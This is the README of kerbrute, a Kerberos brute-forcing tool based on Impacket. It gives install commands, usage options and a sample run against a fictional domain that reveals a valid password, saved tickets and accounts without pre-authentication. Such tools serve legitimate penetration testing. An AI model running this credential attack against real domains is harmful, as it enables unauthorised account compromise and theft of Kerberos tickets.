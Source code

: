 # kerbrute
An script to perform kerberos bruteforcing by using the Impacket library.

When is executed, as input it receives a user or list of users and a password or list of password. Then is performs a brute-force attack to enumerate:
* Valid username/passwords pairs
* Valid usernames
* Usernames without pre-authentication required

As a result, the script generates a list of valid credentials discovered, and the TGT's generated due those valid credentials.

## Installation

To install:
```
git clone https://github.com/TarlogicSecurity/kerbrute
cd kerbrute
pip install -r requirements.txt
```

## Use

Help without arguments:
```shell
root@kali:kerbrute# python kerbrute.py
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

usage: kerbrute.py [-h] [-debug] (-user USER | -users USERS)
                   [-password PASSWORD | -passwords PASSWORDS] -domain DOMAIN
                   [-dc-ip <ip_address>] [-threads THREADS]
                   [-outputfile OUTPUTFILE] [-no-save-ticket]

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -user USER            User to perform bruteforcing
  -users USERS          File with user per line
  -password PASSWORD    Password to perform bruteforcing
  -passwords PASSWORDS  File with password per line
  -domain DOMAIN        Domain to perform bruteforcing
  -dc-ip <ip_address>   IP Address of the domain controller
  -threads THREADS      Number of threads to perform bruteforcing. Default = 1
  -outputfile OUTPUTFILE
                        File to save discovered user:password
  -no-save-ticket       Do not save retrieved TGTs with correct credentials

Examples: 
	./kerbrute.py -users users_file.txt -passwords passwords_file.txt -domain contoso.com
```

Example of execution:
```shell
root@kali:kerbrute# python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

[*] Stupendous => triceratops:Sh4rpH0rns
[*] Saved TGT in triceratops.ccache
[*] Valid user => velociraptor [NOT PREAUTH]
[*] Valid user => trex
[*] Saved discovered passwords in jurassic_passwords.txt
```
